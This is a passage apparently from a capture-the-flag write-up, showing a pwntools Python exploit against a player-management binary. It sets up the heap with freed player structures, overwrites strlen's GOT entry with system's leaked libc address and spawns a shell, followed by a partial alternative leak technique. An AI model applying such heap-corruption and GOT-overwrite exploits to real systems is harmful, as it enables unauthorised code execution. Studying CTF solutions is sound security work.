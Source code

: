 ```python



ADDR_RELOC_STRLEN = pack(0x00603040)

# Craft first player
add_player('A' * (0x18-1))  # sizeof(struct player) - 1 null byte
add_player('A' * 0xaa)      # 0xaa is just a custom big value
select_player(0)
rm_player(0)
rm_player(1)
add_player('A'*0x10 + ADDR_RELOC_STRLEN[:-1]) # We don't actually need the [:-1] as the 
                                              # address contains already few null bytes at
                                              # the end, but I left it as a reminder.

# Get the address of strlen
r.clean(1)                  # clean the input buffer
r.sendline("5")             # show player
r.recvuntil("Name: ")
leak = r.recvuntil("\n")[:-1]
# Calculate the address of system
leak += '\x00' * (8-len(leak))      
addr_system = unpack(leak) - 0x46390
log.info("Address system: 0x%x" % addr_system)

# Overwrite the reloc of strlen
edit_name(pack(addr_system)[:-1])

# Call the function system
edit_name("/bin/sh")
r.clean(1)

# Enjoy
r.interactive()
```






#### NOTE:
When we leak the address of strlen it could happen that the latter
contains some internal null byte, in this case the previous exploit would fail because
printf would show only a partial address.

Another, a bit more complicate, approach consist in using the other properties
of a player, which will be displayed as ints, in order to leak the address
of strlen...actually this is quite useless as the previous exploit works
correctly most of the times, but here is an example:

```python
import ctypes

...

ADDR_PLAYERS = pack(0x00603180)
ADDR_RELOC_STRLEN = pack(0x00603040)

# Craft first player
add_player('A' * (0x18-1)) 
add_player('A' * 0xaa)    
select_player(0)
rm_player(0)
rm_player(1)
add_player('A'*0x10 + ADDR_PLAYERS[:-1])
```